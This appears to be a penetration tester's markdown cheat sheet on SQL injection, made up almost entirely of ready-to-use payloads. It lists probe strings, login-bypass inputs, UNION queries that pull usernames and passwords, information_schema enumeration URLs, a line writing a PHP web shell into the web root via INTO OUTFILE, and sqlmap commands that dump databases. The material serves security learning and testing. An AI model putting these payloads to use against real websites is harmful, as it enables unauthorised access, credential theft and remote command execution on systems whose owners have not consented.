 # SQL Injection

## Basic technique

Stick `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:

```
' or '1'='1
```

Other tests:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Retrieving Hidden Data

```
https://insecure-website.com/products?category=Gifts'--
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

## Bypassing Authentication

```
username' or 1=1;#
username'--
username' or 1=1 --
```

## Retrieving Data from Other DB Tables

[SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

When performing an SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
-----------------------------------
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.

// For Oracle
' UNION SELECT NULL FROM DUAL--
```

Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

```
' UNION SELECT username, password FROM users--
```

## Retrieving multiple values within a single column <a href="#retrieving-multiple-values-within-a-single-column" id="retrieving-multiple-values-within-a-single-column"></a>

Suppose instead that the query only returns a single column. You can easily retrieve multiple values together within this single column by concatenating the values together.

{% code title="On Oracle" %}
```
' UNION SELECT username || '~' || password FROM users--
```
{% endcode %}

## Database enumeration

[Examining the Database](https://portswigger.net/web-security/sql-injection/examining-the-database)

The exact syntax for injection will vary by database type.

Get version:

```
http://[host]/inject.php?id=1 union all select 1,2,3,@@version,5
```

Get the current user:

```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```

See all tables:

```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

Get column names for a specified table:

```
http://[host]/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

Get usernames and passwords (0x3a means `:`):

```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root:

```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUT
```

## Blind SQL injection

{% embed url="https://portswigger.net/web-security/sql-injection/blind" %}

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```

### Passing tokens

If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:

```
sqlmap -r request.txt
```

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}

{% embed url="https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}
